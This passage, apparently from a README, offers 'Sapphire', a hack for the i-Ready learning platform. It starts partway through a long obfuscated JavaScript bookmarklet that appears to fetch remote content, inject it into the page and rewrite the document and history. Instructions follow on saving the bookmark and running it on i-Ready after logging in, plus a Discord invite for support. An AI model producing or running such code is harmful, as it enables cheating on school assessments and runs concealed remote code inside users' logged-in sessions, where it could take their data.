17)}),p3n0km7!==location[Oz6bwi.Ze39T_f]){function%20yJbuoe4(gqsYGxv){return%20c7bg1Q2[104%3EgqsYGxv%3F104%3CgqsYGxv%3FgqsYGxv-0:74%3CgqsYGxv%3F74%3CgqsYGxv%3F104%3CgqsYGxv%3FgqsYGxv-96:104%3CgqsYGxv%3FgqsYGxv+57:74%3EgqsYGxv%3FgqsYGxv-92:gqsYGxv-75:gqsYGxv+2:gqsYGxv+84:gqsYGxv-27]}var%20G50XPAt;return%20G50XPAt=fRPLwmU(wodfbG4(-76)),location[fRPLwmU(yJbuoe4(87))]=G50XPAt,cOjySPZ(-604)(fRPLwmU(13))}let%20E3N75UI=(cOjySPZ(-wodfbG4(-69))[fRPLwmU(14)](fRPLwmU(u457kSb(111))),await(await%20cOjySPZ(wodfbG4(-68))(cIgtvcT[u457kSb(98)]))[D_xE7rG.jBJTpl]());E3N75UI=E3N75UI[l3yV9zv](/%3C\/body%3E/,EkeB8w),cOjySPZ(-57)[fRPLwmU.apply(wodfbG4(-81),[wodfbG4(-73)])][fRPLwmU(21)+wodfbG4(-67)][fRPLwmU(14)](E3N75UI),!cOjySPZ(-wodfbG4(-71))[fRPLwmU(wodfbG4(-73))][gqsYGxv[0]][fRPLwmU(23)]({},%22%22,fRPLwmU(24)+fRPLwmU(25)+gqsYGxv[u457kSb(102)]+gqsYGxv[2])})(),!VJ3Wito(cOjySPZ,wodfbG4(-83))}();</code></pre>
    </li>
    <li>Save the bookmark, you can name it anything you want or you can choose to make it blank.</li>
    <li>Go to <a href="https://login.i-ready.com/login">https://login.i-ready.com/login</a> after you have logged onto your account and run the bookmark.</li>
    <li>Now, Sapphire should have loaded.</li>
</ol>

<h2 align="center">Discord</h2>
<h4 align="center">
    Join the <a href="https://discord.gg/edgM4MuT6E">Discord</a> for additional support with the hack, or to ask any questions you may have.
</h4>
